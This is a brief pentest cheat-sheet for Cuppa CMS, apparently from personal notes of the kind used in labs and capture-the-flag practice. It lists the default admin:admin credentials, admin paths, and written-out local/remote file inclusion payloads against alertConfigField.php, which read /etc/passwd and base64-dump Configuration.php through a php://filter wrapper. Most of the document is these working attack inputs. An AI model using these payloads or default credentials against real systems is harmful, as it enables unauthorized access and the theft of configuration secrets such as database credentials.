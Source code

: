 # cuppa cms

## Default Creds

```
admin:admin
# authenticated
- IP/administrator/?option=com_general_config
```

## Interesting Paths

```bash
/administrator
/administrator/Configuration.php
```

### LFI / RFI

```
https://www.exploit-db.com/exploits/25971
# /administrator/alerts/alertConfigField.php?urlConfig=/etc/passwd
# /administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
```

##
